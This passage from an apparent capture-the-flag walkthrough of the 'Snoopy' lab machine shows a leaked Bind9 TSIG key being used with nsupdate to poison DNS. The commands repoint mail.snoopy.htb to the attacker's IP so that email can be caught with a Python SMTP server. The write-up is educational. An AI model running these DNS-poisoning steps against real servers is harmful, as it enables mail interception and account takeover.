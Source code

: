 This also configures the `allow-transfer`. It also has an `allow-update` value, which says that anyone with the `rndc-key` can update!

### Access to Mattermost

#### Update mail.snoopy.htb

The Bind9 docs have a [section on TSIG](https://bind9.readthedocs.io/en/v9_16_22/advanced.html#tsig):

> TSIG (Transaction SIGnatures) is a mechanism for authenticating DNS messages, originally specified in [**RFC 2845**](https://datatracker.ietf.org/doc/html/rfc2845.html). It allows DNS messages to be cryptographically signed using a shared secret. TSIG can be used in any DNS transaction, as a way to restrict access to certain server functions (e.g., recursive queries) to authorized clients when IP-based access control is insufficient or needs to be overridden, or as a way to ensure message authenticity when it is critical to the integrity of the server, such as with dynamic UPDATE messages or zone transfers from a primary to a secondary server.

The docs calls out `nsupdate` as the tool to do dynamic DNS updates with TSIG.

I’ll create a file with the steps I want to do, and another with the key:

```

oxdf@hacky$ cat poison_dns.txt 
server 10.10.11.212
zone snoopy.htb
update add mail.snoopy.htb 86400 IN A 10.10.14.6
send
oxdf@hacky$ cat rndc.key 
key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

```

If I ask the DNS server for `mail.snoopy.htb` before making changes, it comes back empty. I’ll run `nsupdate` and then it shows my IP:

```

oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
oxdf@hacky$ nsupdate -k rndc.key poison_dns.txt
oxdf@hacky$ dig mail.snoopy.htb +noall +answer @10.10.11.212
mail.snoopy.htb.        86400   IN      A       10.10.14.6

```

It seems this resets every two minutes, so I’ll need to work fast, or be ready to come back and update this again.

#### Capture Email

With the DNS pointed at my host, I’ll run a simple Python SMTP server using the `aoismtpd` module. Just like the `http.server` module, it can be run from the command line to create a simple server like `python -m aiosmtpd -n -l 0.0.0.0:25`. `-n` tells it not to try to set the UID (which is important since I’m not running as root). `-l 0.0.0.0:25` tell it to listen on 25. I’ve got my Python configured with capabilities to allow for listening on low ports:
